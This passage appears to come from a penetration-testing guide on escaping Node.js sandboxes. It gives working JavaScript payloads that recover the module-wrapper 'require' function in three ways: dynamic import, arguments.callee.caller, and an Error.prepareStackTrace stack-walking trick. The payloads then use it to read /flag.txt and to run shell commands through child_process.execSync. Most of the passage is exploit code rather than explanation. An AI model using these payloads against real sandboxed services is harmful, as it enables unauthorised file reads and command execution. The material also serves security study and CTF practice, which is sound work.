 ```javascript
// although import "fs" doesn’t work, import('fs') does.
import("fs").then(m=>console.log(m.readFileSync("/flag.txt", "utf8")))
```

* Accessing `require` indirectly

[According to this](https://stackoverflow.com/questions/28955047/why-does-a-module-level-return-statement-work-in-node-js/28955050#28955050) modules are wrapped by Node.js within a function, like this:

```javascript
(function (exports, require, module, __filename, __dirname) {
    // our actual module code
});
```

Therefore, if from that module we can **call another function**, it's possible to use `arguments.callee.caller.arguments[1]` from that function to access **`require`**:

{% code overflow="wrap" %}
```javascript
(function(){return arguments.callee.caller.arguments[1]("fs").readFileSync("/flag.txt", "utf8")})()
```
{% endcode %}

In a similar way to the previous example, it's possible to **use error handlers** to access the **wrapper** of the module and get the **`require`** function:

```javascript
try {
	null.f()
} catch (e) {
	TypeError = e.constructor
}
Object = {}.constructor
String = ''.constructor
Error = TypeError.prototype.__proto__.constructor
function CustomError() {
	const oldStackTrace = Error.prepareStackTrace
	try {
		Error.prepareStackTrace = (err, structuredStackTrace) => structuredStackTrace
		Error.captureStackTrace(this)
		this.stack
	} finally {
		Error.prepareStackTrace = oldStackTrace
	}
}
function trigger() {
	const err = new CustomError()
	console.log(err.stack[0])
	for (const x of err.stack) {
		// use x.getFunction() to get the upper function, which is the one that Node.js adds a wrapper to, and then use arugments to get the parameter
		const fn = x.getFunction()
		console.log(String(fn).slice(0, 200))
		console.log(fn?.arguments)
		console.log('='.repeat(40))
		if ((args = fn?.arguments)?.length > 0) {
			req = args[1]
			console.log(req('child_process').execSync('id').toString())
		}
	}
}
trigger()
```
